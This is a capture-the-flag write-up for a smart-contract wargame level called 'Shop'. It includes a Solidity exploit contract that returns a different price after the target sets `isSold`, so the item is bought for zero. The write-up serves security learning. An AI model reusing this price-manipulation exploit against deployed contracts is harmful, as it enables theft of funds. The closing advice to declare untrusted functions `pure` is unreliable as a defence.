 # Shop   
This level is very similar to the elevator level with a little difference.This contract depends on a contract we will deploy, so we can manipulate the returned value to win the game.

## Steps:
1. Deploy an exploiting contract with a view function `price`.
````solidity
pragma solidity ^0.8.0;

abstract contract Shop  {
    bool public isSold;
    function buy() public virtual;
}

contract Buyer{
    Shop shop;
    function price() public view returns (uint){
        if(shop.isSold()){
            return 0;
            }
        else{
            return 100;
        }
    }
    function exploit(address victim) public {
        shop = Shop(victim);
        shop.buy();
    }
}

````
2. Call the exploit function, and you bought it with price 0 :).

The vulnerability is in the boolean `isSold` which is updated before calling the function `price`, and so we can change the output of the price function according to its value.
## How to prevent this.
To prevent this type of problems the untrusted functions should be declared as `pure`.
